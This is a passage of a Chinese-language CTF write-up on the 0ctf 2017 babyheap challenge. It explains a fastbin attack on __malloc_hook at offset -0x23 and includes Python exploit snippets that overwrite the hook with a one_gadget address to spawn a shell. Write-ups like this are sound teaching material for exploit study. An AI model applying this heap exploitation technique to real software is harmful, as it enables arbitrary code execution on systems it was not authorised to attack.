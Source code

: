 Q2:为什么不选后面alloc得到的等价的chunk4堆块?

A2:emm,越想越乱。。。 (等本地ubuntu16配好，或者后面做更多的题后再来看看)

至此获得了libcbase

## __malloc_hook -> one_gadget
获得libc地址后 可以使用`fastbin attack`将一个libc上的地址放入fastbin链表中
然后malloc出来 就可以改写libc的内容
`__malloc_hook`是一个libc上的函数指针 调用malloc时如果该指针不为空则执行指向的函数
所以可以通过劫持 __malloc_hook来getshell

同理 需要绕过malloc对fastbin的安全检查: chunksize 必须与fastbin_index相对应(也就是大小要在0x20...0x80)
初看(~~看不了一点~~)  `__malloc_hook`附近没有合适的chunksize
这里要偏移一下: (经典的 `__malloc_hook-0x23`)
申请`__malloc_hook-0x23 `可写段:`__malloc_hook-0x13` 填充0x13个字节即可覆盖__malloc_hook
![img](0ctf_2017_babyheap/images/image-14.png)

![img](0ctf_2017_babyheap/images/image-13.png)

`0x7f2a8a09eaed`处构造堆块可以绕过检测(0x7f符合0x70大小，属于fastbin 0x70这条链) (注意 构造堆块size是第二个字)
那么alloc的大小就是0x70-0x10=0x60
可以计算`0x7f2a8a09eaed`与libcbase的偏移=`0x3c4aed`

(<font color="red">但这里为什么gdb调试看不到？</font>)

```py
alloc(0x60) # index 4

free(4)
fill(2,p64(libcbase+0x3c4aed)) # 修改chunk2的*ptr 即修改chunk4的fd指针域的值
```

然后把 __malloc_hook改为one_gadget 再次调用malloc就可以getshell了
```py
alloc(0x60) # 实际分到chunk4 index4
alloc(0x60) # 分到chunk4->fd即0x7f2a8a09eaed处 index6

payload = p8(0)*3 + p64(0)*2 + p64(libcbase+0x4526a) # 有偏移
fill(6,payload)

alloc(0xFF)
```
